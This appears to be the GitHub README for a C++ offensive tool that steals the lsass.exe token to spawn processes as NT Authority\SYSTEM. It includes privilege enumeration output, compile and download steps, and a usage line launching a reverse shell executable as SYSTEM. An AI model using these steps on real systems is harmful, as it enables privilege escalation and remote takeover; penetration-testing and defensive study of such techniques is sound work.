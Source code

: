 # Impersonator

![Image](https://github.com/plackyhacker/impersonator/blob/main/Impersonator.gif)

Simple `C++` code to impersonate the `lsass.exe` primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` and `SeDebug` privileges are required to impersonate another process token.


**Enumerate**

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeDebugPrivilege                          Debug programs                                                     Disabled
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```


**Compile the code**

```
C:\Dev\>compile.bat
```

Or download the release: https://github.com/plackyhacker/impersonator/releases/tag/v1.0.0-release


**Run the binary**

```
C:\Target\>impersonator.exe reverse_shell.exe
```
